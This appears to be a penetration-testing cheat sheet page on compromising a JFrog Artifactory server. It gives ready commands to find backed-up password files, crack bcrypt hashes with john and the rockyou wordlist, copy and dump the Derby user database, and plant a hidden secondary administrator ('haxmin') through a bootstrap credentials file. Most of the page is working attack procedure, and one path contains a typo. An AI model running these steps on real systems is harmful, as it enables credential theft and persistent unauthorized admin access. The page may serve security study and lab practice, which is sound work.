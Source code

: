 ```yaml
---
description: binary repository manager
---
```


# Artifactory

<details>

<summary>Enumeration</summary>

* Check if artifactory service is running
  *   ```bash
      ps aux | grep artifactory
      ```


* Start Artifactory service
  * ```bash
    sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
    ```

- Passwords stored in .json files
  * ```bash
    /<ARTIFACTORY FOLDER>/var/backup/access
    ```

</details>

<details>

<summary>Cracking Artifactory password</summary>

* Save the bcrypt hash to a text file (Without "bcrypt$")
  *

      <figure><img src="../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>


* ```bash
  john --wordlist=/usr/share/wordlists/rockyou.txt artifactory.hash
  ```

</details>

<details>

<summary>Compromising Artifactory's Database</summary>

* Copy the database from the original location && Remove lock files
  *   ```bash
      mkdir /tmp/hackeddb
      sudo cp -r /opt/jfrog/artifactory/var/data/access/derby /tmp/hackeddb
      sudo chmod 755 /tmp/hackeddb/derby
      sudo rm /tmp/hackeddb/derby/*.lck
      ```


* Connect to DB
  *   ```bash
      sudo /opt/jfrog/artaifactory/app/third-party/java/bin/java -jar /opt/derby/db-derby-10.15.1.3-bin/lib/derbyrun.jar ij
      connect 'jdbc:derby:/tmp/hackeddb/derby';
      ```


* Dump DB
  * ```bash
    select * from access_users;
    ```

</details>

<details>

<summary>Adding a Secondary Artifactory Admin Acc</summary>

* Create new file: /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
  *   ```bash
      haxmin@*=haxhaxhax
      ```


* Create new user
  *   ```bash
      sudo chmod 600 /opt/jfrog/artifactory/var/etc/access/bootstrap.creds
      ```


* Restart Artifactory service
  *   ```bash
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl stop
      sudo /opt/jfrog/artifactory/app/bin/artifactoryctl start
      ```


* Verify that Artifactory would then load the bootstrap credential file for the new user
  *   ```bash
      sudo grep "Create admin user" /opt/jfrog/artifactory/var/log/console.log
      ```


* Login with new account
  * ```bash
    haxmin:haxhaxhax
    ```

</details>
